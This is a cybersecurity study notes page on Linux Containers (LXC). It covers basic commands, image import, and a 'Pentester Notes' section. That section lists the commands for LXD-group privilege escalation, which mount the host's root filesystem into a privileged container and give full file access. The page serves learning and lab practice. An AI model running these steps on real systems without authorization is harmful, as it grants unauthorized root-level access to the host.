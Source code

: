 # Linux Containers (LXC)

[![linuxfundamentals](../../../../cybersecurity/_badges/htb/linuxfundamentals.svg)](https://academy.hackthebox.com/course/preview/linux-fundamentals)
[![linuxprivilegeescalation](../../../../cybersecurity/_badges/htb/linuxprivilegeescalation.svg)](https://academy.hackthebox.com/course/preview/linux-privilege-escalation)
[![linuxsystemhardening](../../../../cybersecurity/_badges/thmp/linuxsystemhardening.svg)](https://tryhackme.com/room/linuxsystemhardening)
[![adventofcyber2](../../../../cybersecurity/_badges/thm/adventofcyber2/day24.svg)](https://tryhackme.com/room/adventofcyber2)

<div class="row row-cols-lg-2"><div>

[Linux Containers](https://linuxcontainers.org/) (LXC) is a Linux only virtualization method to run multiple Linux systems using the host Linux kernel.

[Docker](../docker/index.md) is built over LXC. It provides additional features and a simplified interface. They share the notion of 'image' and 'container'.

LXC can only be used on Linux hosts. Users part of the `lxd` group can call any commands without sudo. 

```shell!
$ lxd init
$ lxc image list # list downloaded images
```

If you have internet access, you can download an image:

```shell!
$ lxc launch ubuntu:22.04 container_name
```
</div><div>

Alternatively, you can import an image from a file. You can build an alpine image <small>(~3Mb)</small> using [lxd-alpine-builder](https://github.com/saghul/lxd-alpine-builder) <small>(0.2k ⭐, 2021 🪦)</small>.

```shell!
$ git clone https://github.com/saghul/lxd-alpine-builder
$ cd lxd-alpine-builder
$ sudo bash build-alpine
```

Transfer the generated tar.gz onto the target and use:

```ps
$ lxc image import xxx.tar.gz --alias image_name
```
</div></div>

<hr class="sep-both">

## Pentester Notes ☠️

<div class="row row-cols-lg-2"><div>

#### LXD Group Privilege Escalation

[![linuxprivilegeescalation](../../../../cybersecurity/_badges/hacktricks/linux_hardening/privilege_escalation/interesting_groups_linux_pe/lxd_privilege_escalation.svg)](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation)
[![linuxprivilegeescalation](../../../../cybersecurity/_badges/htb/linuxprivilegeescalation.svg)](https://academy.hackthebox.com/course/preview/linux-privilege-escalation)
[![adventofcyber2](../../../../cybersecurity/_badges/thm/adventofcyber2/day24.svg)](https://tryhackme.com/room/adventofcyber2)
[![gamingserver](../../../../cybersecurity/_badges/thm-p/gamingserver.svg)](https://tryhackme.com/room/gamingserver)

A member of the LXD group can be leveraged for [privilege escalation](/cybersecurity/red-team/s4.privesc/index.md). You will mount the folder `/` within the container inside `/mnt/hostfs/` allowing you to access any file or edit any file.

* `image_name` is the name of the image you want to use
* `container_name` is a random name, such as `pwned`
* `device_name` doesn't matter, you can use `pwned` too

```shell!
host$ lxc init image_name container_name -c security.privileged=true
host$ lxc config device add container_name device_name disk source=/ path=/mnt/hostfs recursive=true
host$ lxc start container_name
host$ lxc exec container_name /bin/sh
container$ cd /mnt/hostfs/
```
</div><div>

</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

```shell!
$ sudo apt-get install lxc lxc-utils -y
$ sudo lxc-create -n xxx -t yyy
$ lxc-ls
$ lxc-start/stop/restart -n xxx
$ lxc-config -n xxx -s storage/network/security
$ lxc-attach -n xxx [-f /path/to/share]
```
</div><div>
</div></div>